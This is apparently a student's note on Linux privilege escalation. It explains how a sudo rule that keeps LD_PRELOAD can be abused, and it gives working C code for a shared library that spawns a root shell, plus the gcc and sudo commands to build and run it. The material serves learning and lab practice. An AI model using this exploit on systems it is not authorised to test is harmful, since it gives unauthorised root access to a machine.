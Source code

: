 The sudo command, by default, allows you to run a program with root privileges.
	$ sudo -l

**Leverage LD_PRELOAD**
	![[Pasted image 20230702215050.png]]
LD_PRELOAD is a function that allows any program to use shared libraries. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. 

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;
	#include <stdio.h>  
	#include <sys/types.h>  
	#include <stdlib.h>  
	  
		void _init() {  
		unsetenv("LD_PRELOAD");  
		setgid(0);  
		setuid(0);  
		system("/bin/bash");  
		}

$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ sudo LD_PRELOAD=/home/user/ldpreload/shell.so find